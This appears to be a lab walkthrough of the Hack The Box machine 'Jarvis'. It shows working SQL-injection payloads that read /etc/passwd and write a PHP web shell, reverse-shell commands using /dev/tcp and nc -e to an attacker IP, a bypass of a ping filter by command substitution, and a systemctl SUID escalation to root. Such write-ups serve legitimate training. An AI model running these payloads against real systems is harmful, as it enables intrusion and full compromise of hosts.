








# Enumeration

## Run Nmap Scan

```bash
nmap -p- -T4 10.129.86.81

"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-09 12:23 BST
Nmap scan report for 10.129.86.81
Host is up (0.18s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
64999/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 845.79 seconds
"
```

```bash
nmap -p 22,80,64999 -sC -sV 10.129.86.81

"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-09 12:40 BST
Nmap scan report for 10.129.86.81
Host is up (0.18s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03f34e22363e3b813079ed4967651667 (RSA)
|   256 25d808a84d6de8d2f8434a2c20c85af6 (ECDSA)
|_  256 77d4ae1fb0be151ff8cdc8153ac369e1 (ED25519)
80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Stark Hotel
|_http-server-header: Apache/2.4.25 (Debian)
64999/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.25 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.60 seconds
"
```

## **View Website**

### Port 80


### Port 64999



LOL…..

## Directory Bruteforcing (Run Gobuster)

```bash
gobuster dir -u http://10.129.86.81/ -w /usr/share/wordlists/dirb/common.txt -z

"
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.86.81/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/10/09 12:42:18 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 291]
/.htaccess            (Status: 403) [Size: 296]
/.htpasswd            (Status: 403) [Size: 296]
/css                  (Status: 301) [Size: 310] [--> http://10.129.86.81/css/]
/fonts                (Status: 301) [Size: 312] [--> http://10.129.86.81/fonts/]
/images               (Status: 301) [Size: 313] [--> http://10.129.86.81/images/]
/index.php            (Status: 200) [Size: 23628]                                
/js                   (Status: 301) [Size: 309] [--> http://10.129.86.81/js/]    
/phpmyadmin           (Status: 301) [Size: 317] [--> http://10.129.86.81/phpmyadmin/]
/server-status        (Status: 403) [Size: 300]                                      
                                                                                     
===============================================================
2023/10/09 12:43:42 Finished
===============================================================
"
```

Found `/phpmyadmin` which is used for php management tool, but since I have no credentials, I will just leave it.

### Update Host

```bash
sudo vi /etc/hosts

"
10.129.86.81 supersecurehotel.htb
"
```

## Enumerating Website


Here it just looks like any other hotel website


The website has a query that is `cod=1`, what if we do `cod=-1` ?



It only returns the basic ui without any other information. What if this is a database?

# Exploitation

## SQL Injection in the URL Query

### Testing SQL Injection in URL Query


> `--` is a commenting section in SQL
> 

`/room.php?cod=1--` returns the same result as `/room.php?cod=1` . We can assume the there is no sql syntax after this url query.



> `‘` will break the sql syntax as there probably will be a single quote after this sql syntax.
> 

`/room.php?cod=1'--` breaks the code 

### Enumerating how the SQL work in the website



```jsx
/room.php?code=-1 union select 2,3,4,5,6,7,8
```

## Retrieving the Database Information



The name of the database is `hotel` and it’s using `10.1.37-MariaDB-0+deb9u1`. The username for running the database program is `DBadmin@localhost`.

### Retrieving /etc/passwd

I used burp suite to retrieve `etc/passwd` as the website couldn’t output the information to the website.



```sql
/room.php?cod=-1%20union%20select%202,load_file('/etc/passwd'),4,5,6,7,8

"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
messagebus:x:105:110::/var/run/dbus:/bin/false
pepper:x:1000:1000:,,,:/home/pepper:/bin/bash
mysql:x:106:112:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:107:65534::/run/sshd:/usr/sbin/nologin
"
```

### Output information to Text File

```
http://supersecurehotel.htb/room.php?cod=-1 union select 2,load_file('/etc/passwd'),4,5,6,7,8 into outfile '/var/www/html/passwd.txt'
```



`into outfile '/var/www/html/passwd.txt'` this produces `passwd.txt` that can be viewed through `supersecurehotel.htb/passwd.txt`

### Generating a Webshell

```
http://supersecurehotel.htb/room.php?cod=-1%20union%20select%201,%27%3C?phpsystem($_REQUEST[%22exec%22]);?%3E%27,3,4,5,6,7%20into%20outfile%20%27/var/www/html/shell.php%27
```

I placed a webshell code inside so it can be written to `/var/www/html/shell.php`



Since I wrote the webshell at `union select 2`, we can know that the code worked successfully

### Listen to Reverse Shell and Exploit

```bash
curl -X POST http://supersecurehotel.htb/shell.php --data-urlencode 'exec=/bin/bash -c "sh -i >& /dev/tcp/10.10.14.74/4444 0>&1"'
```

Used curl to send a command to `shell.php` to execute a reverse shell.

```bash
nc -lvnp 4444

`
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.86.81.
Ncat: Connection from 10.129.86.81:50750.
sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@jarvis:/var/www/html$
`
```

# Privilege Escalation

## Checking Available Privilege

```bash
sudo -l

"
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
"
```

We can use pepper’s privilege to execute the program, which can lead us to potential privilege escalation from `www-data` to `pepper` 

## Privilege Escalation to Pepper

### /var/www/Admin-Utilities/Simpler.py

```python
#!/usr/bin/env python3
from datetime import datetime
import sys
import os
from os import listdir
import re

def show_help():
    message='''
********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
    '''
    print(message)

def show_header():
    print('''***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************
''')

def show_statistics():
    path = '/home/pepper/Web/Logs/'
    print('Statistics\n-----------')
    listed_files = listdir(path)
    count = len(listed_files)
    print('Number of Attackers: ' + str(count))
    level_1 = 0
    dat = datetime(1, 1, 1)
    ip_list = []
    reks = []
    ip = ''
    req = ''
    rek = ''
    for i in listed_files:
        f = open(path + i, 'r')
        lines = f.readlines()
        level2, rek = get_max_level(lines)
        fecha, requ = date_to_num(lines)
        ip = i.split('.')[0] + '.' + i.split('.')[1] + '.' + i.split('.')[2] + '.' + i.split('.')[3]
        if fecha > dat:
            dat = fecha
            req = requ
            ip2 = i.split('.')[0] + '.' + i.split('.')[1] + '.' + i.split('.')[2] + '.' + i.split('.')[3]
        if int(level2) > int(level_1):
            level_1 = level2
            ip_list = [ip]
            reks=[rek]
        elif int(level2) == int(level_1):
            ip_list.append(ip)
            reks.append(rek)
        f.close()
	
    print('Most Risky:')
    if len(ip_list) > 1:
        print('More than 1 ip found')
    cont = 0
    for i in ip_list:
        print('    ' + i + ' - Attack Level : ' + level_1 + ' Request: ' + reks[cont])
        cont = cont + 1
	
    print('Most Recent: ' + ip2 + ' --> ' + str(dat) + ' ' + req)
	
def list_ip():
    print('Attackers\n-----------')
    path = '/home/pepper/Web/Logs/'
    listed_files = listdir(path)
    for i in listed_files:
        f = open(path + i,'r')
        lines = f.readlines()
        level,req = get_max_level(lines)
        print(i.split('.')[0] + '.' + i.split('.')[1] + '.' + i.split('.')[2] + '.' + i.split('.')[3] + ' - Attack Level : ' + level)
        f.close()

def date_to_num(lines):
    dat = datetime(1,1,1)
    ip = ''
    req=''
    for i in lines:
        if 'Level' in i:
            fecha=(i.split(' ')[6] + ' ' + i.split(' ')[7]).split('\n')[0]
            regex = '(\d+)-(.*)-(\d+)(.*)'
            logEx=re.match(regex, fecha).groups()
            mes = to_dict(logEx[1])
            fecha = logEx[0] + '-' + mes + '-' + logEx[2] + ' ' + logEx[3]
            fecha = datetime.strptime(fecha, '%Y-%m-%d %H:%M:%S')
            if fecha > dat:
                dat = fecha
                req = i.split(' ')[8] + ' ' + i.split(' ')[9] + ' ' + i.split(' ')[10]
    return dat, req
			
def to_dict(name):
    month_dict = {'Jan':'01','Feb':'02','Mar':'03','Apr':'04', 'May':'05', 'Jun':'06','Jul':'07','Aug':'08','Sep':'09','Oct':'10','Nov':'11','Dec':'12'}
    return month_dict[name]
	
def get_max_level(lines):
    level=0
    for j in lines:
        if 'Level' in j:
            if int(j.split(' ')[4]) > int(level):
                level = j.split(' ')[4]
                req=j.split(' ')[8] + ' ' + j.split(' ')[9] + ' ' + j.split(' ')[10]
    return level, req
	
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)

if __name__ == '__main__':
    show_header()
    if len(sys.argv) != 2:
        show_help()
        exit()
    if sys.argv[1] == '-h' or sys.argv[1] == '--help':
        show_help()
        exit()
    elif sys.argv[1] == '-s':
        show_statistics()
        exit()
    elif sys.argv[1] == '-l':
        list_ip()
        exit()
    elif sys.argv[1] == '-p':
        exec_ping()
        exit()
    else:
        show_help()
        exit()
```

Here the function `exec_ping()` is the code that we will exploit. However, we can see there are some special chars that are not allowed to use.

### Exploiting Simpler.py

```bash
echo "127.0.0.1 & nc <attacker ip> 4445 -e /bin/bash" > /tmp/exploit.sh
chmod +x /tmp/exploit.sh
```

Since I was not allowed to use any special characters, I had to bypass the restrictions in order to exploit it. Hence, I used command substitution to bypass it. which will lead the following code to `ping 127.0.0.1 & nc <attacker ip> 4445 -e /bin/bash"`

### Listen to Reverse Shell and Exploit

```bash
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p

'
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: $(/tmp/exploit.sh)
$(/tmp/exploit.sh)
/tmp/exploit.sh: 1: /tmp/exploit.sh: 127.0.0.1: not found
'
```

```bash
nc -lvnp 4445

`
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4445
Ncat: Listening on 0.0.0.0:4445
Ncat: Connection from 10.129.86.81.
Ncat: Connection from 10.129.86.81:57174.

whoami
pepper
python -c "import pty;pty.spawn('/bin/bash')"
pepper@jarvis:/var/www/Admin-Utilities$
`
```

## Privilege Escalation from Pepper to Root

### Enumerating SUID Privilege

```bash
pepper@jarvis:~$ find / -type f -perm -04000 -ls 2>/dev/null

"
find / -type f -perm -04000 -ls 2>/dev/null
     3969     32 -rwsr-xr-x   1 root     root        30800 Aug 21  2018 /bin/fusermount
     3827     44 -rwsr-xr-x   1 root     root        44304 Mar  7  2018 /bin/mount
     3924     60 -rwsr-xr-x   1 root     root        61240 Nov 10  2016 /bin/ping
     4225    172 -rwsr-x---   1 root     pepper     174520 Feb 17  2019 /bin/systemctl
     3828     32 -rwsr-xr-x   1 root     root        31720 Mar  7  2018 /bin/umount
     3825     40 -rwsr-xr-x   1 root     root        40536 May 17  2017 /bin/su
     8187     40 -rwsr-xr-x   1 root     root        40312 May 17  2017 /usr/bin/newgrp
     5326     60 -rwsr-xr-x   1 root     root        59680 May 17  2017 /usr/bin/passwd
     5325     76 -rwsr-xr-x   1 root     root        75792 May 17  2017 /usr/bin/gpasswd
     5323     40 -rwsr-xr-x   1 root     root        40504 May 17  2017 /usr/bin/chsh
    17012    140 -rwsr-xr-x   1 root     root       140944 Jun  5  2017 /usr/bin/sudo
     5322     52 -rwsr-xr-x   1 root     root        50040 May 17  2017 /usr/bin/chfn
    23972     12 -rwsr-xr-x   1 root     root        10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
    32974    432 -rwsr-xr-x   1 root     root       440728 Mar  1  2019 /usr/lib/openssh/ssh-keysign
    28091     44 -rwsr-xr--   1 root     messagebus    42992 Mar  2  2018 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
"
```

Interestingly `Systemctl`  has a SUID privilege, which we might able to exploit!

### Looking for systemctl SUID exploit

[systemctl
            
            |
            
            GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/)

### If you failed the first try, restart the service

```bash
systemctl restart --now priv.service
```

### Listen to Reverse Shell and Exploit

```bash
echo "nc <attacker ip> 4445 -e /bin/bash" > /home/pepper/priv.sh
chmod +x /home/pepper/priv.sh

TF=priv.service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "/home/pepper/priv.sh"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link <Your Current Directory>/$TF
systemctl enable --now $TF
```

This is the script that I used to escalate from pepper to root. It’s almost the same except the command executed

```bash
nc -lvnp 4445

`
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4445
Ncat: Listening on 0.0.0.0:4445
Ncat: Connection from 10.129.86.81.
Ncat: Connection from 10.129.86.81:57176.

whoami
root
python -c "import pty;pty.spawn('/bin/bash')"
root@jarvis:/root#
`
```